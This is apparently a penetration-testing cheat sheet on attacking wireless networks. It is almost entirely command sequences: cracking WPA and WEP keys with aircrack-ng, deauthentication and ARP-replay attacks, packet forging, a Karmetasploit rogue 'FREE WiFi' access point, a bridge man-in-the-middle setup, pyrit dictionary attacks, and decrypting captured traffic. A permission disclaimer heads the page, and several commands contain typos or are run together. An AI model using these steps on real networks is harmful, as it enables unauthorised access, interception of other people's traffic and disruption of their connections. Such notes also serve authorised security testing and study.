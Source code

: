 # Wireless

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents.  You accept full responsibility for your actions by applying any knowledge gained here.  
{% endhint %}

[https://www.bettercap.org/](https://www.bettercap.org/)

[https://miloserdov.org/?p=1112\#1](https://miloserdov.org/?p=1112#1)

Nothing here yet...please feel free to contribute at [https://www.github.com/zweilosec](https://github.com/zweilosec)



## Choosing a wireless module

You must choose a wireless module that has a chipset that is capable of being put in monitor mode.  The site below has a fairly comprehensive list of adapters that support this.  

[https://miloserdov.org/?p=2196](https://miloserdov.org/?p=2196)

## **Setting TX POWER**

`iw reg set BO`  
`iwconfig wlan1 txpower 25`

## **Cracking WPA**

`airmon-ng start wlan0`  
`airodump-ng -c <channel#> –bssid <AP_MAC> -w <out_file> wlan0mon`  
`aireplay-ng -0 1 -a <AP_MAC> -c <victim_client> wlan0mon` {deauth attack}  
`aircrack-ng -0 -w <wordlist> <capture_file>`

## **Cracking WEP**

###  **with Connected Clients**

`airmon-ng start wlan0 [channel#]`  
`airodump-ng -c <channel#> –bssid <AP_MAC> -w <out_file> wlan0mon`  
`aireplay-ng -1 0 -e <ESSID> -a <AP_MAC> -h <Host_MAC> wlan0mon` {fake authentication}  
`aireplay-ng -3 -b <AP_MAC> -h <host_MAC> wlan0mon` {ARP replay attack}`aireplay-ng -0 1 -a <AP MAC> -c <victim_client> wlan0mon` {deauth attack - as needed}

### **via a Client**

`airmon-ng start wlan0 [channel#]`  
`airodump-ng -c <channel#> –bssid <AP_MAC> -w <out_file> wlan0mon`  
aireplay-ng -1 0 -e \(ESSID\) -a \(AP MAC\) -h \(OUR MAC\) wlan0mon {fake authentication}  
aireplay-ng -2 -b \(AP MAC\) -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 wlan0mon  
aireplay-ng -2 -r \(replay cap file\) wlan0mon {inject using cap file}  
aircrack-ng -0 -z\(PTW\) -n 64\(64bit\) filename.cap

### **ARP amplification**

airmon-ng start wlan0 \( channel\)  
airodump-ng -c \(channel\) –bssid \(AP MAC\) -w \(filename\) wlan0mon  
aireplay-ng -1 500 -q 8 -a \(AP MAC\) wlan0mon  
areplay-ng -5 -b \(AP MAC\) -h \(OUR MAC\) wlan0mon  
packetforge-ng -0 -a \(AP MAC\) -h \(OUR MAC\) -k 255.255.255.255 -l 255.255.255.255 -y \(FRAGMENT.xor\)   -w \(filename.cap\)  
tcpdump -n -vvv -e -s0 -r \(replay\_dec.\#\#\#\#\#.cap\)  
packetforge-ng -0 -a \(AP MAC\) -h \(OUR MAC\) -k \(destination IP\) -l \(source IP\) -y \(FRAGMENT.xor\) -w \(filename.cap\)  
aireplay-ng -2 -r \(filename.cap\) wlan0mon

### **Cracking WEP /w shared key AUTH**

airmon-ng start wlan0 \( channel\)  
airodump-ng -c \(channel\) –bssid \(AP MAC\) -w \(filename\) wlan0mon  
~this will error out~aireplay-ng -1 0 -e \(ESSID\) -a \(AP MAC\) -h \(OUR MAC\) wlan0mon {fake authentication}  
aireplay-ng -0 1 -a \(AP MAC\) -c \(VIC CLIENT\) wlan0mon {deauthentication attack}  
aireplay-ng -1 60 -e \(ESSID\) -y \(sharedkeyfile\) -a \(AP MAC\) -h \(OUR MAC\) wlan0mon {fake authentication /w PRGA xor file}  
aireplay-ng -3 -b \(AP MAC\) -h \(OUR MAC\) wlan0mon {ARP replay attack}  
aireplay-ng -0 1 -a \(AP MAC\) -c \(VIC CLIENT\) wlan0mon {deauthentication attack}  
aircrack-ng -0 -z\(PTW\) -n 64\(64bit\) filename.cap

### **Cracking a Clientless WEP \(FRAG AND KOREK\)**

#### _{FRAG}_

airmon-ng start wlan0 \(channel\)  
airodump-ng -c \(channel\) –bssid \(AP MAC\) -w \(filename\) wlan0mon  
aireplay-ng -1 60 -e \(ESSID\) -a \(AP MAC\) -h \(OUR MAC\) wlan0mon {fake authentication}  
~aireplay-ng -5 \(frag attack\) -b \(AP MAC\) -h \(OUR MAC\) wlan0mon  
packetforge-ng -0 -a \(APMAC\) -h \(OUR MAC\) -l 255.255.255.255 -k 255.255.255.255 -y \(fragment filename\) -w filename.cap  
tcpdump -n -vvv -e -s0 -r filename.cap {TEST}  
aireplay-ng -2 -r filename.cap wlan0mon

#### _{KOREK}_

~aireplay-ng -4 -b \(AP MAC\) -h \(OUR MAC\) wlan0mon  
tcpdump -s 0 -s -e -r replayfilename.cap  
packetforge-ng -0 -a \(APMAC\) -h \(OUR MAC\) -l 255.255.255.255\(source IP\) -k 255.255.255.255\(dest IP\) -y \(fragmentfilename xor\) -w filename.cap  
aireplay-ng -2 -r filename.cap wlan0mon  
aircrack-ng -0 filename.cap

## **Karmetasploit**

airbase-ng -c \(channel\) -P -C 60 -e “FREE WiFi” -v wlan0mon  
ifconfig at0 up 10.0.0.1/24  
mkdir -p /var/run/dhcpd  
chown -R dhcpd:dhcpd /var/run/dhcpd  
touch /var/lib/dhcp3/dhcpd.leases  
cat dhcpd.conf  
touch /tmp/dhcp.log  
chown dhcpd:dhcpd /tmp/dhcp.log  
dhcpd3 -f -cf /tmp/dhcpd.conf -pf /var/run/dhcpd/pid -lf /tmp/dhcp.log at0  
msfconsole -r /root/karma.rc

## **MISC**

### **Bridge-control man in the middle**

airebase-ng -c 3 -e “FREE WiFi” wlan0mon  
brctl addbr hacker\(interface name\)  
brctl addif hacker eth0  
brctl addif hacker at0  
ifconfig eth0 0.0.0.0 up  
ifconfig at0 0.0.0.0 up  
ifconfig hacker 192.168.1.8 up  
ifconfig hacker  
echo 1 &gt; /proc/sys/net/ipv4/ip\_forward

### **pyrit DB attacks**

pyrit eval  
pyrit -i \(wordlist\) import\_passwords  
pyrit -e \(essid\) create\_essid  
pyrit batch  
pyrit batch -r \(capturefile\) -b\(AP MAC\) attack\_db

**pyrit strip**  
pyrit -r \(capturefile\) -o \(capturefile output\) strip

**pyrit dictionary attack**  
pyrit -r \(capturefile\) -i \(/pathtowordlist\) -b \(AP MAC\) attack\_passthrough

### **airgraph-ng**

airgraph-ng -i filename.csv -g CAPR -o outputfilename.png  
eog outputfilename.png  
airgraph-ng -i filename.csv -g CPG -o outputfilename.png  
eog outputfilename.png

### **airdecap-ng**

airdecap-ng -b \(vic ap\) outputfilename.cap  
wireshark outputfilename.cap  
airdecap-ng -w \(WEP KEY\) \(capturefile.cap\)  
wireshark capturefile-DEC.cap  
airdecap-ng -e \(ESSID VIC\) -p \(WPA PASSWORD\) \(capturefile.cap\)  
wireshark capturefile-dec.cap

